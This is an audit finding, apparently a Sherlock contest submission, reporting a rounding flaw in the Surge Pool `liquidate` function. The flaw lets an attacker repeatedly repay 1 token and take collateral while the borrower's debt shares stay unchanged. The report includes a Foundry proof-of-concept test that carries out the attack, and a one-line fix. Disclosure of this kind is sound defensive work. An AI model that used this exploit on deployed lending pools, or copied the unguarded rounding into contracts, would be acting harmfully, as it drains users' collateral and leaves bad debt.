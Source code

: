 Tricko

high

# Debts can be partially liquidated without reducing `debtSharesBalanceOf[borrower]`.

## Summary
On specific circurstances attackers can target debt positions and liquidate them to obtain their collateral without reducing user's debts.

## Vulnerability Detail
Due to `_shares` rounding down in `liquidate`, there are specific circumstances where a liquidator can use the `liquidate` function to repay a small amount of the loan token from a debt position, receive the collateral, but not reduce the user's debt.The code snippet below shows that if `collateralBalance` is greater than `userDebt` and `_debtSharesSupply` is less than `_currentTotalDebt`, passing `_amount == 1` to the liquidate function will result in `collateralReward` being greater than zero and `_shares` being zero. Therefore 1 loan tokens will be paid back to the pool, `collateralReward` collateral tokens will be sent to the liquidator, but `debtSharesBalanceOf[_borrower]` will stay unchanged. Consequently, the liquidator can repeatedly exploit this vulnerability to obtain all the collateral from the debt position, leaving the bad debt in the Pool. See the Proof of Concept section below.

```javascript
} else {
    uint userInvertedCollateralRatioMantissa = collateralBalance * 1e18 / userDebt;
    collateralReward = _amount * userInvertedCollateralRatioMantissa / 1e18; // rounds down
    _shares = tokenToShares(_amount, _currentTotalDebt, _debtSharesSupply, false);
}
_currentTotalDebt -= _amount;

// commit current state
debtSharesBalanceOf[_borrower] -= _shares;
debtSharesSupply = _debtSharesSupply - _shares;
collateralBalanceOf[_borrower] = collateralBalance - collateralReward;
```

## Impact
The consequences of this vulnerability are two-fold. First, attackers can target specific debt positions that fall below the collaterization ratio and obtain the collateral without reducing their debts, resulting in permanent loss of funds for the targeted users. Second, at a protocol level, attackers can exploit this vulnerability to create multiple bad debt positions, which can impact the Pool's functionality over time.


This is probably unfeasible on ETH mainnet due to high gas costs, but probably achievable on the cheaper networks, especially L2. As the project will be deployed on a number of EVM chains (including L2), as stated in the README, this poses a significant risk.

## Proof of Concept
Consider the following scenario
1. Alice borrows some tokens.
Some time passes, Alice's debt position cross the the collaterization ratio limit due to interest.
2. Eve (attacker) calls `liquidate` on Alice with the smallest `_amount` possible.
3. Pool gets paid, Eve receives 1 collateral token, but Alice's debt stays the same.

Run the test below to verify this scenario.
```solidity
pragma solidity 0.8.17;

import "../lib/forge-std/src/Test.sol";
import "../src/Pool.sol";
import "../src/Factory.sol";
import "../src/PoolLens.sol";
import "./mocks/ERC20.sol";

contract PoolTest is Test {
    Factory factory;
    PoolLens lens;
    MockERC20 collateralToken;
    MockERC20 loanToken;
    Pool pool;
    
    uint256 amount;
    address alice;
    address eve;

    function setUp() public {
        lens = new PoolLens();
        collateralToken = new MockERC20(1e36, 18);
        loanToken = new MockERC20(1e36, 18);
        factory = new Factory(address(this), "G");
        pool = factory.deploySurgePool(IERC20(address(collateralToken)), IERC20(address(loanToken)), 0.50e18, 0.8e18, 1e15, 1e15, 0.1e18, 0.4e18, 0.6e18);
        alice = makeAddr("alice");
        eve = makeAddr("bob");

        amount = 1e18;
        loanToken.transfer(alice, 10*amount);
        collateralToken.transfer(alice, 10*amount);
        loanToken.transfer(eve, 10*amount);
    }

    function testPOC() external {

        //1. Alice borrows from Pool
        vm.startPrank(alice);
        loanToken.approve(address(pool), amount);
        pool.deposit(amount);
        collateralToken.approve(address(pool),amount);
        pool.addCollateral(address(alice), amount);
        pool.borrow(amount/2);
        vm.stopPrank();

        //Enough time passes, so that debt accrued makes Alice collaterization ratio below limit
        //So she can be liquidated
        vm.warp(block.timestamp + 300);

        // Update state and store Alice's debt balance before liquidation
        pool.withdraw(0); 
        uint256 debtBefore = pool.debtSharesBalanceOf(address(alice));

        // Eve perform the attack
        vm.startPrank(eve);
        loanToken.approve(address(pool), amount);
        pool.liquidate(address(alice), 1);
        vm.stopPrank();

        // Update state and store Alice's debt balance after liquidation
        pool.withdraw(0); 
        uint256 debtAfter = pool.debtSharesBalanceOf(address(alice));

        //Alice's collateral balance has been decrease
        assertEq(pool.collateralBalanceOf(address(alice)), amount-1);

        //But her debt stays the same
        assertEq(debtAfter, debtBefore);
    }
}
```

## Code Snippet
https://github.com/sherlock-audit/2023-02-surge/blob/main/surge-protocol-v1/src/Pool.sol#L553-L609

## Tool used
Manual Review

## Recommendation
Please consider adding a check for `_shares > 0`, as shown in the diff below.

```diff
diff --git a/Pool.sol.orig b/Pool.sol
index 0fb9b27..a3af7db 100644
--- a/Pool.sol.orig
+++ b/Pool.sol
@@ -586,6 +586,7 @@ contract Pool {
             collateralReward = _amount * userInvertedCollateralRatioMantissa / 1e18; // rounds down
             _shares = tokenToShares(_amount, _currentTotalDebt, _debtSharesSupply, false);
         }
+        require(_shares > 0);
         _currentTotalDebt -= _amount;

         // commit current state
```
